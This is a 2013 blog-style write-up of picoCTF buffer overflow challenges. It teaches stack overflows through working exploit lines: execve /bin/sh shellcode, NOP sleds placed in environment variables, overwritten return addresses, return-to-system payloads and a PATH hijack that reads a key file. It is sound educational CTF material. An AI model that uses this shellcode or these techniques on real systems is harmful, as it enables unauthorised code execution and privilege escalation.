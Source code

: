 ```yaml
---
layout: post
title:  "Buffer Overflows - The Basics"
date:   2013-05-06
---
```


Recently I competed in [picoCTF](https://picoctf.com/), a hacker CTF game, and thought I would share some of my solutions. The first of which, is how I did the buffer overflow(s). (for those that don't know, CTF consists of 'flags' which are special strings that you get by exploiting vulnerabilities in programs).

Lets start with what a basic vulnerable application would look like.

```c
     void function(char *str) {
       char buffer[16];
       strcpy(buffer,str);
     }
```
Now lets say we give that function a string which is longer than 16 characters. Instead of throwing an exception, it will happily write those bytes to the stack.

#### The Stack:
The stack is basically the program in memory (a&nbsp;continuous&nbsp;chunk). Here's how it looks (remember stacks are last in first out).

[ &nbsp; &nbsp; &nbsp;return address &nbsp; &nbsp; &nbsp; &nbsp; ] <-- <del>this is the address of the next funciton to call, we want to overwrite this</del>  
[ &nbsp; &nbsp; &nbsp; &nbsp; eip (address) &nbsp; &nbsp; &nbsp;&nbsp; ] <-- <del>this takes up memory</del>&nbsp;we want to overwrite this  
[ &nbsp; &nbsp; &nbsp; stack variable &nbsp; &nbsp; &nbsp; &nbsp; ] <-- this takes up memory  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;buffer[15] &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ] <-- this is the 16th character of our input string  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ... &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ]  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;buffer[0]&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- our input starts here  

So the idea behind a buffer overflow, is to overflow the buffer:
(input: 'AAAA...AAAAEXECUTESHELLCODE')

[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; get shell &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- this is the secret sauce  
[ &nbsp; &nbsp; &nbsp; &nbsp;0x41414141 &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- overwrite garbage  
[ &nbsp; &nbsp; &nbsp;&nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;] <-- overwrite garbage  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; ] <-- 4 letter 'A's  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; ... &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;]  
[ &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;0x41414141&nbsp; &nbsp; &nbsp; &nbsp; ] <-- buffer starts here  

Now, before we get to the secret sauce, lets first understand how were gonna write those 'A' to the buffer.
` ./buffer_overflow $(python -c 'print "A"*28')  `

I use python, but you can use other languages too.

Ok, so now we have a bunch of A's on the stack. But how do we know how many we need?

To be honest, I'm not super sure. I know that its a multiple of 4 plus the buffer size (in this case 16). You can guess and check, but for me its usually buffer size + 12 bytes (12 A's). Sometimes you don't know how large the buffer is (eg. no source code). In this case, just put in a lot of A's until your at the sweet spot between Segmentation Fault, and proper execution. (ps, this could be over 1000 so guess wisely).

Alright, now we have&nbsp;overflowed&nbsp;the buffer with A's , lets look at the secret sauce.
[shellcode](http://en.wikipedia.org/wiki/Shellcode)&nbsp;([examples](http://www.exploit-db.com/shellcode/)). For picoCTF, we were given shellcode, but that's not always the case.

Here is the shellcode given to us (in hex):

```
00000000 31 c0 f7 e9 50 68 2f 2f 73 68 68 2f 62 69 6e 89 |1...Ph//shh/bin.|
00000010 e3 50 68 2d 70 69 69 89 e6 50 56 53 89 e1 b0 0b |.Ph-pii..PVS....|
00000020 cd 80                       |..|
```

When this piece of code gets executed, we get a shell. We want a shell to spawn because usually the [SUID](http://en.wikipedia.org/wiki/Setuid)&nbsp;of the binary is set to a&nbsp;privileged&nbsp;user, which allows use to read flags from the disk.

The way you add this shellcode (below is a different shellcode) to your buffer overflow, is to add it to an environment variable:

```bash
export EXPLOIT=$(python -c 'print "\x90"*1000+"\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh"')
```

Notice the "\x90". This is a [NOP (no operation) sled](http://en.wikipedia.org/wiki/NOP_slide), which basically means that it gets skipped over as meaningless code (From what I understand, the NOP allows the memory address to be off by a bit and it will still work).

Then to find its memory address we have a small C program:

```c
	 #include <stdio.h>
     #include <stdlib.h>
     int main(int argc, char **argv) {
       printf("\n%p\n\n", getenv("EXPLOIT"));
       return(0);
     }
```

If you're on a 64 bit machine it may come out as more than 4 bytes. This means you need to re-compile the C program with the '-m32' flag (makes it 32 bit). (gcc -m32 -o tester tester.c)

You should now have an address like this: `0xbffff688`

So now, instead of giving it shellcode directly, we can give the program the address of it in memory.

Addresses are represented in [little endian](http://en.wikipedia.org/wiki/Endianness)&nbsp;so we write them backwards. The code looks like this:  
` ./buffer_overflow $(python -c 'print "A"*28+"\x88\xf6\xff\xbf")  `

Notice how it was reversed, in 1 byte chunks (2 digits). Also notice how python lets us write the arbitrary hex values using the escape sequence "\x00". (you can usually also just write the address a ton of times, eg:&nbsp;`"\x88\xf6\xff\xbf"*200`)  

That pretty much covers the basics of buffer overflows, stay tuned for a ROP tutorial (Return Oriented Programming) which can also be used to solve buffer overflow problems.

#### SPOILER ALERT:
The solution to picoCTF overflow 3 (has elements of ROP):  
`(overflow)` `(address of 'shell' function-found with gdb)`
`./buffer_overflow $(python -c 'print "A"*76   +  "\xf8\x85\x04\x08"')  `
    and overflow 4:  
`(put shellcode on stack)`               `(filler)`  `(the pointer to shellcode - shown in stack trace)`
`./buffer_overflow_shellcode $(cat shellcode)$(python -c'print "BB"+"A"*40+"\x40\xd5\xff\xff"') `

(alternate solution if not given stack trace):

```
 export EXPLOIT=$(python -c "print '\x90'*1000")$(cat shellcode)
```
(run environment program above to get its address: 0xffffd433 - Assumes no [ASLR](http://en.wikipedia.org/wiki/Address_space_layout_randomization))

```
./buffer_overflow_shellcode $(python -c "print '\x33\xd4\xff\xff'*200")
```
and overflow 5 (non-executable memory):                                                   `(overflow)` `(<system>)`     `(called)` `('/bin/sh' from environment)`

```
./buffer_overflow_shellcode_hard $(python -c 'print "A"*1036+"\x50\x82\xe6\xf7"+"sh;#" +  "\x11\xd8\xff\xff"')
```
(Note, the address for '/bin/sh' from gdb was&nbsp;0xffffd80f and wasn't working, so I just played with the address (increased by 1, then 1 more) until it worked - note also that I used gdb instead of the normal dump program above, as the address was different. This is because the stack got modified slightly during execution (out of our control). The <system> comes from ROP (found with gdb), so stay tuned for more info on that).
    gdb looked like this:

```
     (gdb) break main
     (gdb) run
     (gdb) x/s *((char **)environ)
     0xffffd805:      "EXPLOIT=/bin/sh"
     (gdb) x/s 0xffffd80d
     0xffffd80d:      "/bin/sh"
```
#### Update:
Getting environment variables does not always work (ie. overflow 5) so I came up with an alternate solution, using PATH and a string from the binary. Here is what the process looks like:

```
	 mkdir cmd
     cd cmd
     echo "cat /problems/stack_overflow_5_0353c1a83cb2fa0d/key" > a
     chmod +x a
     export PATH=/home2/user1792/cmd:$PATH
     cd /problems/stack_overflow_5_0353c1a83cb2fa0d
     gdb buffer_overflow_shellcode_hard
     (gdb) break main
     (gdb) run
     (gdb) find &system,+999999,"a"
     >> 0xf7e9e6ab #this is the address we will use
     >> 0xf7f0fb8e <setpriority+14>
     >> (cont.)
```

`(fill)`    `(system)`          `(junk)`    `("a" address)`

```
./buffer_overflow_shellcode_hard $(python -c 'print "A"*1036+"\x50\x82\xe6\xf7"+"AAAA" +"\xab\xe6\xe9\xf7"')
```

Here are some good sources for more information on buffer overflows:  
[http://insecure.org0xffffd7f0/stf/smashstack.html](http://insecure.org/stf/smashstack.html)  
[http://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow](http://security.stackexchange.com/questions/13194/finding-environment-variables-with-gdb-to-exploit-a-buffer-overflow)  
[http://www.lopisec.com/2011/12/smashthestack-io-level-5-writing-my.html](http://www.lopisec.com/2011/12/smashthestack-io-level-5-writing-my.html)  
[http://raidersec.blogspot.com/2012/10/smash-stack-io-level-3-writeup.html](http://raidersec.blogspot.com/2012/10/smash-stack-io-level-3-writeup.html)  
[http://key-basher.blogspot.com/2013/04/smash-stack-level-5.html](http://key-basher.blogspot.com/2013/04/smash-stack-level-5.html)  
